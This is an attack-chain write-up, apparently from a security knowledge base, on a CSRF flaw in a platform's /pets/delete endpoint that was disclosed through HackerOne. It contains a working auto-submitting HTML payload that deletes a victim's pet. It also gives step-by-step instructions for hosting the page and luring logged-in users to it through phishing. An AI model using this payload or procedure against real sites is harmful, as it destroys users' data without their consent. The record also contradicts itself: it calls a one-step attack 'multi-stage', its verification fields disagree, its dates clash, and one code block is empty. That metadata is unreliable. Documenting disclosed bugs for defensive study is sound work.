

---
tags:
  - csrf
  - web-vulnerability
  - unauthorized-deletion
  - pet-management
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
procedures:
  - '[[procedures/Exploit-CSRF-to-Delete-Pet]]'
step_count: 1
techniques:
  - '[[Drive-by Compromise]]'
description: >-
  A simple attack chain exploiting a CSRF vulnerability in the /pets/delete
  endpoint to delete a pet from a logged-in user's account without their
  knowledge or consent.
skill_level: novice
impact_level: low
id: 48d942f5-9529-432d-96f2-7b8675358481
created_at: '2025-12-14T17:27:57.394Z'
updated_at: '2025-12-14T17:27:57.394Z'
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Drive-by Compromise]]'
---
# CSRF Exploitation to Unauthorized Pet Deletion on Mars Platform

Multi-stage attack chain demonstrating a complete attack workflow exploiting the lack of CSRF protection on the Mars platform's /pets/delete endpoint. An attacker crafts a malicious webpage that, when visited by a logged-in user, automatically submits a forged request to delete a pet. This was reported via HackerOne (Report #2261600) and affects both GET and POST methods, with low severity impact (CVSS 3.8) involving unauthorized data modification.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Novice |
| Complexity | Low |
| Impact Level | Low |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses basic HTML and web hosting)

### Target Environment

- Web platform (Mars application)
- Vulnerable endpoint: /pets/delete (GET/POST)
- No specific ports or services beyond standard HTTPS (443)

### Initial Access Requirements

- Victim must be authenticated (logged in) to Mars platform
- Attacker needs victim's pet ID (e.g., via social engineering or prior recon)
- Network access to host a malicious page

## Detailed Attack Procedures

### Step 1: Perform CSRF Exploitation
procedure: [[procedures/Exploit-CSRF-to-Delete-Pet]]

**Objective**: Forge a request to the vulnerable /pets/delete endpoint to delete a target pet from the victim's account by tricking them into loading a malicious page while logged in.

**Instructions**: First, identify the pet ID to target (assume obtained via reconnaissance, e.g., viewing the user's public pet profile). Then, create a simple HTML file that auto-submits a POST request to the endpoint. Save it as `csrf-payload.html`:

```html
<!DOCTYPE html>
<html>
<head><title>CSRF Payload</title></head>
<body>
    <h1>Loading...</h1>
    <form action="https://mars.com/pets/delete" method="POST" id="delete-form">
        <input type="hidden" name="petId" value="123" />
    </form>
    <script>
        document.getElementById('delete-form').submit();
    </script>
</body>
</html>
```

Host this file on a web server (e.g., using Python's `http.server` or any free hosting service) and send the URL to the victim via phishing email, social media, or embedded in a malicious site. When the victim clicks and loads the page while logged in, the form submits automatically, exploiting the lack of CSRF tokens.

For GET method exploitation (also vulnerable), use an image tag instead:

```html

```

**Expected Output**: The pet is deleted from the victim's account; victim may see a success message or notice the pet missing upon next login.

**Success Indicators**:
- Pet no longer appears in victim's account
- Server logs show request from victim's IP/session
- No additional authentication prompted during request

## Attack Chain Summary

### Key Achievements

1. Successful forgery of delete request without user consent
2. Demonstration of impact on user data integrity
3. Validation of vulnerability via retesting post-fix

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-11-22*
